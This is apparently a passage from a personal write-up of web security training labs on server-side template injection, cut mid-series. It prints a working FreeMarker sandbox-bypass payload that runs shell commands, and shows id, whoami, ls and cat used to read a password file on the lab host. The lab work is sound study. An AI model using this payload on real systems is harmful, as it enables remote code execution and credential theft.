 There I see the error and it is written the template engine, which is `freemarker`.

![Pasted_image_20250127013737](https://github.com/user-attachments/assets/306915ad-fa27-4654-bf90-9ff7b06e08bf)

Now, there is a way here to explore the documentation for Java and to find a chain of methods that grant access to a class with a static method that lets you read files.

Another way is to see for some existing payloads, that will bypass the sandbox environment. Lets check on `Hacktricks` for `Freemarker`.

There is an available payload for the versions below 2.3.30:

```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

But, here we see that it uses the `article.class` but I don't know if we have that in our lab, so I will replace that with `product.class`.

There I see that I got some results back:

`<p>Hurry! Only 839 left of 3D Voice Assistants at uid=12002(carlos) gid=12002(carlos) groups=12002(carlos) .</p>`

Let's try `whoami`, and I see that it return `carlos`.

With the `ls` it shows that there exists in the current directory the `my_password.txt`:

`<p>Hurry! Only 999 left of 3D Voice Assistants at my_password.txt .</p>`

Let's try to open that by putting `cat my_password.txt`.

And I got the contents:

`<p>Hurry! Only 138 left of 3D Voice Assistants at neksr5agpxyvd0yfjpuy.</p>`

which by providing them solves the lab.

----------

**Constructing a custom exploit using developer-supplied objects**

Sometimes templates run in a secure, locked-down environment and this makes the exploitation for RCE much more difficult, there may be still some ways.

As for example, to read files, as developer-created objects that are exposed to the template can offer a less-hardened attack surface.

Since, documentation for site-specific objects are hard to find, sometimes non-existent, the exploitation should be done by investigating the website's behavior manually and identify the attack surface, the n construct the custom exploit accordingly.

### Lab.6 Server-Side Template Injection with a Custom Exploit

**Description**
The goal of the lab is to create a custom exploit and delete the file `/.ssh/id_rsa` from Carlos's home directory.

